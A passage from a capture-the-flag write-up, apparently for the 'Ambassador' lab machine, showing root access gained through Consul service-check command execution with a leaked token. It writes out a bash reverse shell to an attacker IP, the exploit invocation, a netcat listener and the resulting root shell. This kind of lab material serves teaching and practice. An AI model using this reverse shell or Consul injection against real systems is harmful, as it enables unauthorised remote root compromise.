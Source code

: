 There is a working [exploit](https://github.com/owalid/consul-rce/blob/main/consul_rce.py), providing RCE via Consul service config: When registering a service, the `Args` value inside `Check` section can contain a command that gets executed. Submitting a request to the REST interface for service configuration requires a Consul token which we just found. 

See also:
* [Consul commands - services](https://developer.hashicorp.com/consul/commands/services)
* [Consul dicovery - services](https://developer.hashicorp.com/consul/docs/discovery/services)


The exploit from above can be used as-is together with a custom Bash script that contains a reverse shell:

```bash
$ cat myshell.sh 
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.17/9999 0>&1
$ chmod +x myshell.sh
$ python3 exploit.py  -th 127.0.0.1 -tp 8500 -c "/dev/shm/myshell.sh" -ct bb03b43b-1d81-d62b-24b5-39540ee469b5
[+] Check lbnlwmvqeutvoov created successfully
[+] Check lbnlwmvqeutvoov deregistered successfully
```

Listener on attacker box:

```bash
$ nc -nlvp 9999
listening on [any] 9999 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.11.183] 50524
bash: cannot set terminal process group (54098): Inappropriate ioctl for device
bash: no job control in this shell
root@ambassador:/# 
```

### Flag

Finally, we can read the root flag:
```bash
root@ambassador:/# cat /root/root.txt
6428bf**************************
```
